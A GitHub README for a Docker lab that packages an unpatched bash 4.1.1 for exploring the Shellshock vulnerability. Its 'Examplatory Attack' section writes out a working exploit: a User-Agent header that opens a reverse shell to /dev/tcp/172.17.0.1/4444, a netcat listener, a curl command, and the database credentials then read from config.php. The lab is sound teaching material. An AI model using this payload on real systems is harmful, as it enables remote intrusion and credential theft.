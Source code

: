 # shellshock-lab

This is a playground to investigate and emulate the infamous `shellshock` vulnerability in `bash` (CVE-2014-6271, CVE-2014-7169, CVE-2014-7186 CVE-2014-7186, ...).

## About Shellshock

`https://en.wikipedia.org/wiki/Shellshock_(software_bug)`

Shellshock is a critical vulnerability discovered in older versions of the Bash shell. It allows attackers to execute arbitrary commands by injecting malicious code into specially crafted environment variables. The vulnerability occurs during the initialization of a new Bash process,
where Bash improperly processes function definitions within environment variables.

```bash
env x='() { :;}; echo vulnerable!' bash -c ""
```

In vulnerable Bash versions, the above command will echo "vulnerable!" because Bash misinterprets additional code after the function definition.

### CVE identifiers

- CVE-2014-6271 (initial),
- CVE-2014-6277,
- CVE-2014-6278,
- CVE-2014-7169,
- CVE-2014-7186,
- CVE-2014-7187

### Key impacts

- Shellshock is dangerous because environment variables can be passed to Bash from external sources, such as web servers (via CGI scripts), SSH, or other services.
- Attackers can use this to compromise systems and execute arbitrary commands.

## Repo Content

- `README.md` contains the description and instructions
- `image/` - contains everything that is needed to build a vulnerable, unpatched image of bash (`4.1.1`)

## Image

The docker image builds upon tianon's excellent `docker-bash` [build code](https://github.com/tianon/docker-bash). We've removed backports, added certain runtime dependencies (`openssh`,`apache2`, `php`, `python`, ...) and added various config file for those services (`httpd.conf`, `sshd_config`, cgi scripts, ...).

Our goal was to create an easy-to-use, AIO image as a playground for various shellshock shenanigans.

The image is also published on DockerHub under `docker.io/ninnit/shellshock-lab:latest`.

### Building

From within the image directory...

```bash
docker build -t shellshock-lab:latest .
```

### Running

```bash
docker run --rm -p 2222:22 -p 8080:80 -p 8443:443 -it docker.io/ninnit/shellshock-lab:latest
```

## Examplatory Attack

The container runs an httpd webserver, which exposes a CGI script, as well as a simple PHP app.

The container can be started using...

```bash
docker run --rm -p 2222:22 -p 8080:80 -p 8443:443 -it docker.io/ninnit/shellshock-lab:latest
```

The interesting URLs are:

- `http://localhost:8080/cgi-bin/submit-comment.cgi` -> 200 -> vulnerable CGI bash script
- `http://localhost:8080/myapp/index.php` -> 200 -> PHP App `index.php`
- `http://localhost:8080/myapp/config.php` -> 403 -> PHP App config file. Access to this file is not possible directly from the webb

Our goal is to read the content of the php config file, as it may contain sensible database credentials.

Do do this, we can exploit the `shellshock` vulnerability, by sending a malicious `User-Agent` header to the CGI endpoint. `apache2` evaluates the Header as an Environment-Variable - and executes our code (as the webserver's user -> `apache`).

We'd like to have a reverse-shell, so in our case we'll design the header like this:

```text
() { :; }; /bin/bash -i >& /dev/tcp/172.17.0.1/4444 0>&1
o
```

It creates a interactive bash session, redirects it's stdout/stderr to a tcp socket, and redirects the stdin (from our reverse shell) back to the session.

We'll create a `netcat` listener on our host machine, to catch the reverse-shell on port `4444`:

```bash
nc --listen --verbose --local-port 4444
```

Here's the `curl` HTTP request:

```bash
curl -H "User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/172.17.0.1/4444 0>&1" http://localhost:8080/cgi-bin/submit-comment.cgi
```

Once the request is sent, our reverse-shell is active:

```text
❯ nc --listen --verbose --local-port 4444
Connection from 172.17.0.2:54774
```

We can then read the content of the `config.php` file:

```text
cat /var/www/localhost/htdocs/myapp/config.php

<?php
// Sensitive configuration data
$db_user = "admin";
$db_pass = "verysecure123";
?>
bash-4.1
```
